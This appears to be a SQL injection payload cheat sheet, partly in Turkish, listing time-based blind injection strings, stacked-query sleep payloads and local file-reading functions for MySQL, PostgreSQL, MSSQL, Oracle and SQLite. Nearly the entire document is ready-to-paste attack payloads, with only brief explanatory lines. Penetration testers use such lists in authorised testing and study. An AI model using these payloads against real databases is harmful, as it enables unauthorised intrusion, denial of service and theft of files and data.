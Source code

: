 # Time Based Exploitation

## Basit Zaman Tabanlı Enjeksiyonlar
Bu enjeksiyon yükleri, sorguda değerlendirilen her satır için veritabanının 10 saniye uyumasına neden olabilir. Yalnızca sorgunun yalnızca bir satırı değerlendireceğinden eminseniz kullanılmalıdır.

### Variant: Payload
- **MySQL**: `AND SLEEP(10)=0`
- **PostgreSQL**: `AND 'RANDSTR'||PG_SLEEP(10)='RANDSTR'`
- **MSSQL**: `AND 1337=(CASE WHEN (1=1) THEN (SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7) ELSE 1337 END)`
- **Oracle**: `AND 1337=(CASE WHEN (1=1) THEN DBMS_PIPE.RECEIVE_MESSAGE('RANDSTR',10) ELSE 1337 END)`
- **SQLite**: `AND 1337=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))`

## Karmaşık Zaman Tabanlı Enjeksiyonlar
Bu enjeksiyon yükleri yalnızca bir kez uykuya neden olur (10 saniye). Eğer 1=1 koşulu doğruysa, 10 saniyelik bir gecikme meydana gelir.

### Variant: Payload
- **MySQL**: `AND (SELECT 1337 FROM (SELECT(SLEEP(10-(IF((1=1),0,10))))) RANDSTR)`
- **PostgreSQL**: `AND 1337=(CASE WHEN (1=1) THEN (SELECT 1337 FROM PG_SLEEP(10)) ELSE 1337 END)`
- **MSSQL**: `AND 1337=(CASE WHEN (1=1) THEN (SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7) ELSE 1337 END)`
- **Oracle**: `AND 1337=(CASE WHEN (1=1) THEN DBMS_PIPE.RECEIVE_MESSAGE('RANDSTR',10) ELSE 1337 END)`
- **SQLite**: `AND 1337=(CASE WHEN (1=1) THEN (SELECT 1337 FROM (SELECT LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2)))))) ELSE 1337 END)`

# Stack Based Injection
Bu enjeksiyonlar genellikle zaman gecikmesi ile tespit edilir ve 10 saniye uykuya neden olur.

### Variant: Payload
- **MySQL**: `; SLEEP(10) -- -`
- **PostgreSQL**: `; PG_SLEEP(10) -- -`
- **MSSQL**: `; WAITFOR DELAY '0:0:10' -- -`
- **Oracle**: `; DBMS_PIPE.RECEIVE_MESSAGE('RANDSTR',10) -- -`
- **SQLite**: `; RANDOMBLOB(1000000000/2) -- -`

# Dosya Okuma
Yerel dosyaların içeriğini okumak için kullanılan yöntemler aşağıda verilmiştir.

### Variant: Function
- **MySQL**: `LOAD_FILE('/path/to/file')`
- **PostgreSQL**: `PG_READ_FILE('/path/to/file')`
- **MSSQL**: `OPENROWSET(BULK 'C:\path\to\file', SINGLE_CLOB)`
- **Oracle**: `utl_file.get_line(utl_file.fopen('/path/to/','file','R'), <buffer>)`
- **SQLite**: `readfile('/path/to/file')`
